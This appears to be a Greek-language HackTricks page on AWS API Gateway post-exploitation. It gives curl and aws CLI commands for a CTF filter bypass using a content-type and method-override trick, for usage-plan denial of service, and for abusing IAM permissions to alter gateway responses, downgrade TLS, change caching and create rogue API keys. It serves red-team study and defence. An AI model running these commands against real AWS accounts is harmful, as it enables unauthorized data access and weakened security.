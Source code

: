 # AWS - Μετεκμηκυνση μετά την εκμετάλλευση της API Gateway

{% hint style="success" %}
&#x20;Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
&#x20;Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** 💬 [**στην ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τεχνικές χάκινγκ υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}

## API Gateway

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Πρόσβαση σε μη εκτεθειμένες APIs

Μπορείτε να δημιουργήσετε ένα σημείο στο [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) με την υπηρεσία `com.amazonaws.us-east-1.execute-api`, να εκθέσετε το σημείο σε ένα δίκτυο όπου έχετε πρόσβαση (πιθανώς μέσω μιας μηχανής EC2) και να αναθέσετε ένα ομάδα ασφαλείας που επιτρέπει όλες τις συνδέσεις.\
Στη συνέχεια, από τη μηχανή EC2 θα μπορείτε να έχετε πρόσβαση στο σημείο και συνεπώς να καλέσετε την πύλη API που δεν είχε εκτεθεί προηγουμένως.

### Παράκαμψη παράδοσης σώματος αιτήματος

Αυτή η τεχνική βρέθηκε στο [**αυτό το CTF writeup**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Όπως προκύπτει από την [**τεκμηρίωση του AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) στην ενότητα `PassthroughBehavior`, από προεπιλογή, η τιμή **`WHEN_NO_MATCH`** , κατά τον έλεγχο της κεφαλίδας **Content-Type** του αιτήματος, θα προωθήσει το αίτημα στο back end χωρίς μετασχηματισμό.

Συνεπώς, στο CTF η API Gateway είχε ένα πρότυπο ενσωμάτωσης που **απέτρεπε την εκτροπή της σημαίας** σε μια απάντηση όταν αποστέλλονταν ένα αίτημα με `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Ωστόσο, η αποστολή ενός αιτήματος με **`Content-type: text/json`** θα αποτρέψει αυτό το φίλτρο.&#x20;

Τέλος, καθώς το API Gateway επέτρεπε μόνο τις `Get` και `Options`, ήταν δυνατόν να σταλεί μια αυθαίρετη ερώτηση dynamoDB χωρίς καμία περιορισμό στέλνοντας ένα αίτημα POST με την ερώτηση στο σώμα και χρησιμοποιώντας την κεφαλίδα `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Χρήση Σχεδίων DoS

Στην ενότητα **Απαρίθμησης** μπορείτε να δείτε πώς να **αποκτήσετε το σχέδιο χρήσης** των κλειδιών. Αν έχετε το κλειδί και είναι **περιορισμένο** σε X χρήσεις **ανά μήνα**, θα μπορούσατε απλά να το **χρησιμοποιήσετε και να προκαλέσετε ένα DoS**.

Το **Κλειδί API** χρειάζεται απλώς να **συμπεριληφθεί** μέσα σε ένα **HTTP κεφαλίδα** που ονομάζεται **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Ένας επιτιθέμενος με τις άδειες `apigateway:UpdateGatewayResponse` και `apigateway:CreateDeployment` μπορεί να **τροποποιήσει μια υπάρχουσα Απόκριση Πύλης για να περιλαμβάνει προσαρμοσμένες κεφαλίδες ή πρότυπα απόκρισης που διαρρέουν ευαίσθητες πληροφορίες ή εκτελούν κακόβουλα scripts**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Πιθανή Επίπτωση**: Διαρροή ευαίσθητων πληροφοριών, εκτέλεση κακόβουλων scripts, ή μη εξουσιοδοτημένη πρόσβαση σε πόρους του API.

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Ένας επιτιθέμενος με τις άδειες `apigateway:UpdateStage` και `apigateway:CreateDeployment` μπορεί **να τροποποιήσει ένα υπάρχον στάδιο του API Gateway για να ανακατευθύνει την κίνηση σε διαφορετικό στάδιο ή να αλλάξει τις ρυθμίσεις caching για να κερδίσει μη εξουσιοδοτημένη πρόσβαση σε κρυφά δεδομένα**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Πιθανή Επίπτωση**: Μη εξουσιοδοτημένη πρόσβαση σε κρυφά δεδομένα, διαταραχή ή παρεμπόδιση της κίνησης του API.

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Ένας επιτιθέμενος με τις άδειες `apigateway:PutMethodResponse` και `apigateway:CreateDeployment` μπορεί **να τροποποιήσει την απάντηση μεθόδου ενός υπάρχοντος μεθόδου API Gateway REST για να περιλαμβάνει προσαρμοσμένους κεφαλίδες ή πρότυπα απάντησης που διαρρέουν ευαίσθητες πληροφορίες ή εκτελούν κακόβουλα scripts**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Πιθανή Επίπτωση**: Διαρροή ευαίσθητων πληροφοριών, εκτέλεση κακόβουλων σεναρίων ή μη εξουσιοδοτημένη πρόσβαση σε πόρους του API.

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Ένας επιτιθέμενος με τις άδειες `apigateway:UpdateRestApi` και `apigateway:CreateDeployment` μπορεί **να τροποποιήσει τις ρυθμίσεις του API Gateway REST API για να απενεργοποιήσει την καταγραφή καταγραφής ή να αλλάξει την ελάχιστη έκδοση TLS, με δυνητική απόδυναμωση της ασφάλειας του API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Πιθανή Επίπτωση**: Αποδυνάμωση της ασφάλειας του API, πιθανώς επιτρέποντας μη εξουσιοδοτημένη πρόσβαση ή αποκάλυψη ευαίσθητων πληροφοριών.

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Ένας επιτιθέμενος με δικαιώματα `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` και `apigateway:CreateUsagePlanKey` μπορεί **να δημιουργήσει νέα κλειδιά API, να τα συσχετίσει με σχέδια χρήσης και στη συνέχεια να χρησιμοποιήσει αυτά τα κλειδιά για μη εξουσιοδοτημένη πρόσβαση σε APIs**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Πιθανή Επίπτωση**: Μη εξουσιοδοτημένη πρόσβαση σε πόρους του API, παράκαμψη ελέγχων ασφαλείας.

{% hint style="info" %}
Απαιτείται δοκιμή
{% endhint %}

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**Την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
